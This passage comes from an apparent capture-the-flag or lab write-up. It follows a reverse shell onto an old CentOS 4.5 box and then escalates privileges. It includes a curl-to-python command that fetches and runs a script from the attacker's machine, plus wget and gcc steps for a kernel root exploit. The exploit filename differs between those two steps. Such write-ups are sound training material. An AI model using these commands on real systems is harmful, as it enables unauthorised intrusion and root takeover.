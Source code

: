 <p>This resulted in a successful connection back to my listening netcat session:</p>

<p><img alt="" src="https://i.imgur.com/POJePjU.png" style="height:143px; width:534px" /></p>

<hr />
<h2>Privilege Escalation:</h2>

<p>So as I anticipated, I landed on the account running the webpage, in this case, "apache". This account has pretyy low privileges and can&#39;t look at very much or do much, and without a password, using sudo isn&#39;t possible.</p>

<p>Manual enumeration is good to practice, but for this box I wanted to use a new script that I haven&#39;t used before. It&#39;s a python script that does a lot of basic priv esc checks and presents it in a nice, readable format.</p>

<p><a href="https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py">https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py</a></p>

<p>I downloaded it to the attacking machine, and then hosted an http server on my Kali box with</p>

<ul>
	<li>python -m SimpleHTTPServer 80</li>
</ul>

<p>This starts up an HTTP server on port 80 (this module defaults to 8080 if you don&#39;t provide a port number), and will serve the files that are <strong>in the directory that you launched the server from. </strong>I had the victim download it from my attacking machine by changing to the /tmp directory (all accounts have write access in this directory) and running this:</p>

<ul>
	<li>curl 10.0.0.128/linuxprivcheck.py | python</li>
</ul>

<p>I had to pipe it to python because this command just printed the script&#39;s source code to the terminal and didn&#39;t execute.</p>

<p>This script output a LOT of text, and for some reason, I couldn&#39;t get it to properly pipe to "less" or "more", so I could only read the last bit, but luckily, that was enough.</p>

<p><img alt="" src="https://i.imgur.com/IDCuClm.png" /></p>

<p>This shows us some potential exploits that could be used on the system for priv esc. I usually shy away from kernel exploits, because they can take the box down if they aren&#39;t written well, but this box is running CentOS 4.5, which is quite old, so I&#39;m a bit more willing to rely on well-known and well-tested exploits.</p>

<p>The one I ended up using was <a href="https://www.exploit-db.com/exploits/9479">ring0 Root Exploit.</a></p>

<p>Again I started up the python HTTP server, and downloaded it to the victim:</p>

<ul>
	<li>wget 10.0.0.128/9479.c</li>
</ul>

<p>The target has gcc installed, so I compiled it on the victim.</p>

<ul>
	<li>gcc 9472.c -o pwn</li>
</ul>
